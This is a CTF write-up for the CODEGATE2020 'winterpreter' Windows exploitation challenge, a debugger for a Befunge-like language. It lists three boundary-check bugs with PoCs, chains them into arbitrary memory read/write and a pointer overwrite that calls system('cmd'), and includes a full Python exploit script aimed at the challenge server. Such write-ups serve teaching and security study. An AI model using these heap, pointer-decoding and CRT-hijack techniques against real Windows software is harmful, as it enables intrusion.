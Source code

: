 # winterpreter writeup

## Description

This is a Windows userland exploitation challenge written in VC++. The given binary is an overly simplified debugger for a Befunge-like language (modified subset of [Funge-98](https://github.com/catseye/Funge-98/blob/master/doc/funge98.markdown)). Attacker must escape the debugger and gain arbitrary code execution to read the flag file.

## Solution

There are largely three bugs, which can all be traced to improper boundary checking mechanism.

1. Single byte overread using `'` instruction at any boundary of code.
    <details>
    <summary>Minimal PoC</summary>
    <p>
    
    ```
    15 1
    >             '
    > run
    Program started.
    > step 15
    14 step(s) executed.
    Program terminated: PC out of range
    > stack
    Stack Dump:
    00
    > pc
    PC: (16, 0)
    ```
    
    </p>
    </details>
1. Single byte overwrite using `s` instruction at any boundary of code.
    <details>
    <summary>Minimal PoC</summary>
    <p>
    
    ```
    15 1
    >1&&&p        X
    > run
    Program started.
    > step 15
    115
    14
    0
    14 step(s) executed.
    Program terminated: PC out of range
    > pc
    PC: (16, 0)
    > run
    Program started.
    > step 15
    39
    14
    0
    14 step(s) executed.
    Program terminated: PC out of range
    > pc
    PC: (16, 0)
    > stack
    Stack Dump:
    01
    01
    ```
    
    </p>
    </details>
1. Out of bound execution using `#` instruction in conjunction with cycle execution mode.
    <details>
    <summary>Minimal PoC</summary>
    <p>
    
    ```
    15 1
    >             #
    > run
    Program started.
    > step 14
    14 step(s) executed.
    > pc
    PC: (14, 0)
    > cycle 1
    0 cycle(s) executed.
    Program terminated: Illegal instruction
    > pc
    PC: (16, 0)
    ```
    
    </p>
    </details>

One can write a short code that receives input from user, and writes it out to code. It is equally possible to read an arbitrary character in code area. Putting it all together, one can write a code that diverts the program control flow to write and read at arbitrary code position, and also execute some predefined part of code possibly written by user input. This allows the attacker to freely use any instructions from a fixed base code.

<details>
<summary>Base code for put & get & code execution</summary>
<p>

```python
code = [
'v >&&&p@',  # 1, 1 (put)
'#  ',
'>&|',
'&  ',
'# >&' + r':&\&\p'*8 + '@',  # 1, 0 (put_qword)
'   ',
'| >&&g.@',  # 0, 1, 1 (get)
'#  ',
'>&|',
'&  ',
'# >&' + r':&\g.'*8 + '@',  # 0, 1, 0 (get_qword)
'   ',
'|',
'',
'',
'',
'',
'',
'',
'',
'',
'',
'',
'>', # 0, 0 (run)
'',  # last line for completely arbitrary RW (mem_*)
]
```

</p>
</details>

Since the debugger does not reset code at each runs, one can chain the above bugs to gain a limited relative write primitive as below:
1. Write 
    ```
    '&            s'
    ```
    to code and run it with input `ord('s')` -> `'s'` written after string buffer
1. Write
    ```
    '&           # '
    ```
    to code and run it with input `255` -> `'s\xff'` written after string buffer, where the `'\xff'` overflows into string length

Note that the above exploit is able to overflow string length only for code lines of length 0xf or smaller. This is because longer strings are allocated into Windows heap. This exploit assumes that all code lines directly related to exploitation are of length 0xf or smaller.

With the above primitive, one can only directly read and write at x-coordinates only in range \[0, 80\). This is because the OOB checker checks the coordinates against origin and maximum code size. For string objects close to the lower boundary (maximum y-coord), this is sufficient to leak executable image base.

However, one can make use of the limited relative write primitive to gain completely arbitrary read/write primitive. After overflowing the string length, the attacker can completely overwrite the next string object. Thus, the attacker can fake the string object as if it is allocated at a completely controlled pointer.

Using the arbitrary read/write primitive, one can trivially leak DLL bases from import section, `__security_cookie` from data section, and generally everything whose address is known to the attacker.

From this point, it is up to the attacker to use any preferred methods to gain arbitrary code execution. The sample exploit code utilizes a destructor function and the locking mechanism for magic statics. Specifically, the exploit code does the following:
1. Overwrite `std::_Fac_head` pointer such that destructor calls `_Init_thread_notify`
2. Overwrite appropriate command (`"cmd"`) to `_Tss_cv`
3. Overwrite `_Tss_event` to 0
4. Overwrite `encoded_wake_all_condition_variable` to `_decode_pointer(ucrtbase!system)`
5. Trigger exploit by graceful exit (command `quit`)

The exploit is triggered in the following steps:
1. Destructor is called at exit, which calls `_Init_thread_notify()` as overwritten
1. `_Init_thread_notify()` calls `(_encode_pointer(encoded_wake_all_condition_variable))(&_Tss_cv)` if `!_Tss_event`, equivalent to `system("cmd")` in our exploit

After gaining command prompt, `type C:\CTF\flag.txt` to read flag file.

**FLAG: `CODEGATE2020{pwn1ng_da7_d3bugger_w17h_an0th3r_d1m3nsi0n}`**

<details>
<summary>Exploit Code</summary>
<p>

```python
### This exploit is based on a Windows environment with python2 + customized pwintools(https://github.com/leesh3288/pwintools)
### Else, one can carve through all the DLLs and hardcode their offsets
from pwintools import *

binary = PE(r'..\dist\winterpreter.exe')
k32 = PE(r'..\dist\libs\kernel32.dll')
ntdll = PE(r'..\dist\libs\ntdll.dll')
ucrt = PE(r'..\dist\libs\ucrtbase.dll')
msvcp = PE(r'..\dist\libs\msvcp140.dll')
vcrt = PE(r'..\dist\libs\vcruntime140.dll')
p = Remote('183.107.102.15', 54321)
p.timeout = 5000

PAYLOAD_LEN = 14
MAXH = 25
MAXW = 80
LIMW = 15

def cmd(s):
    p.recvuntil('> ')
    p.sendline(s)

def put(x, y, v):
    cmd('stop')
    cmd('run')
    cmd('cycle 1000')
    p.sendline('1')
    p.sendline('1')
    p.sendline(str(v))
    p.sendline(str(x))
    p.sendline(str(y))

def put_qword(x, y, v):
    cmd('stop')
    cmd('run')
    cmd('cycle 1000')
    p.sendline('1')
    p.sendline('0')
    p.sendline(str(y))
    for i, c in enumerate(p64(v)):
        p.sendline(str(ord(c)))
        p.sendline(str(x + i))

def get(x, y):
    cmd('stop')
    cmd('run')
    cmd('cycle 1000')
    p.sendline('0')
    p.sendline('1')
    p.sendline('1')
    p.sendline(str(x))
    p.sendline(str(y))
    return chr(int(p.recvuntil(' ', drop = True)))

def get_qword(x, y):
    cmd('stop')
    cmd('run')
    cmd('cycle 1000')
    p.sendline('0')
    p.sendline('1')
    p.sendline('0')
    p.sendline(str(y))
    for i in range(8):
        p.sendline(str(x + i))
    return u64(''.join(chr(int(p.recvuntil(' ', drop = True))) for _ in range(8)))

def run(payload, aux = ''):
    assert(len(payload) <= PAYLOAD_LEN)
    for i, c in enumerate(payload.ljust(PAYLOAD_LEN, ' ')):
        put(i + 1, MAXH - 2, ord(c))
    cmd('stop')
    cmd('run')
    cmd('cycle 1000')
    p.sendline('0')
    p.sendline('0')
    for c in aux:
        p.sendline(str(ord(c)))

# overwrite std::string[MAXH - 1] structure
def mem_init(addr, length = MAXW, capacity = 0x10):
    put_qword(0x20, MAXH - 2, addr)
    put_qword(0x30, MAXH - 2, length)
    put_qword(0x38, MAXH - 2, capacity)

def mem_read_qword(ofs):
    assert(ofs in range(0, MAXW - 8))
    return get_qword(ofs, MAXH - 1)

def mem_write_qword(ofs, v):
    assert(ofs in range(0, MAXW - 8))
    return put_qword(ofs, MAXH - 1, v)

def ROR8(data, rot):
    return ((data >> rot) | (data << (0x40 - rot))) & ((1 << 0x40) - 1)

def _decode_pointer(ptr, cookie):
    return ROR8(ptr, 0x40 - (cookie & 0x3f)) ^ cookie

# arbitrary put&get + code runner
code = [
'v >&&&p@',  # 1, 1 (put)
'#  ',
'>&|',
'&  ',
'# >&' + r':&\&\p'*8 + '@',  # 1, 0 (put_qword)
'   ',
'| >&&g.@',  # 0, 1, 1 (get)
'#  ',
'>&|',
'&  ',
'# >&' + r':&\g.'*8 + '@',  # 0, 1, 0 (get_qword)
'   ',
'|',
'',
'',
'',
'',
'',
'',
'',
'',
'',
'',
'>', # 0, 0 (run)
'',  # last line for completely arbitrary RW (mem_*)
]
assert(max(len(line) for line in code) <= MAXW)
assert(len(code) == MAXH)

p.sendline('{} {}'.format(MAXW, MAXH))
for codeline in code:
    p.sendline(codeline.ljust(LIMW, ' '))

run('&            s', 's')  # overflow: "s"
run('&           # ', chr(0xff))  # overflow: "s\xff" => code.inst[MAXH - 2].length = 0xff

# leak executable image base from LEFT.x
img_base = get_qword(0x48, MAXH - 2) - 0xE4F8
log.info('winterpreter.exe base: 0x{:016x}'.format(img_base))
assert(img_base & 0xffff == 0)

# leak DLL base from imports
# we only need ucrtbase.dll leak, the others are for illustration
mem_init(img_base + binary.sections['.rdata'][0] + 0xD0)
k32_base = mem_read_qword(0) - k32.symbols['InitializeCriticalSectionAndSpinCount']
ntdll_base = mem_read_qword(0x8) - ntdll.symbols['RtlLeaveCriticalSection']
msvcp_base = mem_read_qword(0x28) - msvcp.symbols['?snextc@?$basic_streambuf@DU?$char_traits@D@std@@@std@@QEAAHXZ']

mem_init(img_base + binary.sections['.rdata'][0] + 0x298)
vcrt_base = mem_read_qword(0) - vcrt.symbols['_CxxThrowException']
ucrt_base = mem_read_qword(0x10) - ucrt.symbols['malloc']

log.info('kernel32.dll base: 0x{:016x}'.format(k32_base))
log.info('ntdll.dll base: 0x{:016x}'.format(ntdll_base))
log.info('ucrtbase.dll base: 0x{:016x}'.format(ucrt_base))
log.info('msvcp140.dll base: 0x{:016x}'.format(msvcp_base))
log.info('vcruntime140.dll base: 0x{:016x}'.format(vcrt_base))
assert(reduce(lambda x, y: x | y, [k32_base, ntdll_base, ucrt_base, msvcp_base, vcrt_base]) & 0xffff == 0)

# leak __security_cookie (ofs 0xE020)
cookie_addr = img_base + 0xE020
mem_init(cookie_addr)
cookie = mem_read_qword(0)
log.info('__security_cookie: 0x{:016x}'.format(cookie))

# overwrite std::_Fac_head (ofs 0xF930) such that destructor calls _Init_thread_notify (ofs 0x87D8)
scratch = img_base + 0xF000  # originally space for mt19937_64 object
destructor_ptr = img_base + 0xF930
mem_init(scratch)
mem_write_qword(0, scratch)
mem_write_qword(8, scratch + 8)
mem_write_qword(0x18, img_base + 0x87D8)
mem_init(destructor_ptr)
mem_write_qword(0, scratch)

# write appropriate command @ _Tss_cv (ofs 0xF9B0)
write_base = img_base + 0xF9B0
mem_init(write_base)
mem_write_qword(0, u64("cmd\0\0\0\0\0"))

# overwrite _Tss_event to zero (ofs 0xF9B8)
mem_write_qword(8, 0)

# overwrite encoded_wake_all_condition_variable (ofs 0xF9C8)
mem_write_qword(0x18, _decode_pointer(ucrt_base + ucrt.symbols['system'], cookie))

# reset to normal, prevent crashing at std::string destructor
mem_init(img_base + binary.sections['.rdata'][0] + 0xF0, 0xf, 0xf)

# trigger exploit
cmd('quit')

p.interactive()
```

</p>
</details>

Note that there are various methods of obtaining RCE from arbitrary RW in Windows. Notably, the following techniques exist:
1. Use destructor codes in given executable binary. The above exploit code utilizes this method to minimize Windows version dependent offsets.
2. Overwrite atexit functions at `ucrtbase!_acrt_atexit_table`. Oneshot gadget inside `ucrtbase!common_system_char_` would be an easy target, as we can satisfy the constraint `[rbp - 0x20] == NULL` and also satisfy stack alignment.
3. Convert the arbitrary RW into ROP as follows:
   1. Leak ntdll base
   2. Leak PEB from ntdll .data section
   3. Calculate TEB address from PEB (TEB = PEB + 0x1000)
   4. Egg hunt a known value at stack, starting from TEB.StackBase down to TEB.StackLimit. Now we have exact stack address leak.


## Appendix

Code space: Max 25 lines, 80 chars per line. Code space may be jagged, meaning that each lines may have different character limits.

Below are the instructions defined in the language used in this challenge.

```
0-9, a-f  Push this number on the stack
+         Addition: Pop a and b, then push a+b
-         Subtraction: Pop a and b, then push b-a
*         Multiplication: Pop a and b, then push a*b
/         Integer division: Pop a and b, then push b/a, rounded towards 0.
%         Modulo: Pop a and b, then push the remainder of the integer division of b/a.
!         Logical NOT: Pop a value. If the value is zero, push 1; otherwise, push zero.
`         Greater than: Pop a and b, then push 1 if b>a, otherwise zero.
>         Start moving right
<         Start moving left
^         Start moving up
v         Start moving down
?         Start moving in a random cardinal direction
_         Pop a value; move right if value=0, left otherwise
|         Pop a value; move down if value=0, up otherwise
"         Start string mode: push each character's ASCII value all the way up to the next "
:         Duplicate value on top of the stack
\         Swap two values on top of the stack
$         Pop value from the stack and discard it
.         Pop value and output as an integer followed by a space
,         Pop value and output as ASCII character
#         Bridge: Skip next cell
p         A "put" call (a way to store a value for later use). Pop y, x, and v, then change the character at (x,y) in the program to the character with ASCII value v
g         A "get" call (a way to retrieve data in storage). Pop y and x, then push ASCII value of the character at that position in the program
&         Ask user for a number and push it
'         Fetch ASCII value of the character at next position in the program, then push the value. Skip next position (like #)
s         Pop c, then write ASCII value of character c at next position in the program. Skip next position (like #)
x         Pop c, then overwrite current position character as ASCII value of character c. Do not execute newly written character.
@         End program
(space)   No-op. Does nothing
```
Reference: [Befunge-93 instruction list @ Wikipedia](https://en.wikipedia.org/wiki/Befunge#Befunge-93_instruction_list), [Funge-98 Specification](https://github.com/catseye/Funge-98/blob/master/doc/funge98.markdown)